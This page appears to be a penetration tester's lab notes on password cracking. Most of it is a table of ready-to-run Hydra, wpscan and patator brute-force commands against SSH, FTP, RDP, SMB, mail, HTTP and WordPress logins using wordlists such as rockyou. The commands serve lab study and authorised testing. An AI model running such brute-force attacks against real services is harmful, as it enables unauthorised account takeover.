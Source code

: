 # Password Cracking

An amazing index of brute-force commands

```
https://book.hacktricks.xyz/brute-force
```

## Username list

{% hint style="success" %}
Before you brute force. Ask yourself: have you found a user list on the website? If so look through it for stand out names like dev, test, admin. These might be concealed in the big username list you found. Trust me, scan through the list. Also sort for unique names - save you brute forcing the same name. Lesson learned on PG! ....\*cough Interface\*
{% endhint %}

## Hydra

| Command                                                                                                                                                                         |                      Description                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :--------------------------------------------------: |
| hydra -P password-file.txt -v $ip snmp                                                                                                                                          |            Hydra brute force against SNMP            |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                                                             |    Hydra FTP known user and rockyou password list    |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                                                                    |      Hydra SSH using list of users and passwords     |
| hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh                                                                                                                               | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l -P big\_wordlist.txt                                                                                                                                     |      Hydra SSH Against Known username on port 22     |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                                                                |                Hydra POP3 Brute Force                |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                                                               |                Hydra SMTP Brute Force                |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                                                       |   Hydra attack http get 401 login with a dictionary  |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                                                                 |   Hydra attack Windows Remote Desktop with rockyou   |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                                                                   |       Hydra brute force SMB user with rockyou:       |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^\&pwd=^PASS^\&wp-submit=Log In\&testcookie=1:S=Location'                                    |       Hydra brute force a Wordpress admin login      |
| hydra -vV -L unique -p wedontcare $ip http-post-form '/wp-login.php:log=^USER^\&pwd=^PASS^\&wp-submit=Log+In:F=Invalid username'                                                |             Hydra brute force a username             |
| wpscan --url [http://192.168.1.122](http://192.168.1.122) -U Elliot -P fsocity.dic.unique                                                                                       |           Use wpscan to bruteforce password          |
| patator http\_fuzz url=[http://$ip/login](http://192.168.92.106/login) method=POST body='username=FILE0\&password=FILE1' 0=allusers.txt 1=$ROCKYOU -x ignore:fgrep=Unauthorized |                fast webform bruteforce               |

The POST request contained json`{"username":"aaa","password":"bbbb"}`. Patator didn't like it so I had to change it to `'username=FILE0&password=FILE1'` see above

### SQL bruteforce root password remotely
